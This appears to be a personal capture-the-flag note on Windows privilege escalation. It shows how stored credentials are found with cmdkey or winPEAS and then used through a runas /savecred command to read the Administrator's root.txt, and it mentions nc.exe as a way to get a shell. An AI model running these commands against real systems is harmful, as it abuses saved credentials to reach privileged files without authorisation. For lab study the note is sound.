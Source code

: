 - **`cmdkey /list`** or from winPEAS [[Internal Enumeration]]

# Command:
---
`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"`

**==Note:- Sometimes, it just does not work, we must try other things like executing a command directly or getting a shell using nc.exe ==**

![[Pasted image 20250416163024.png]]
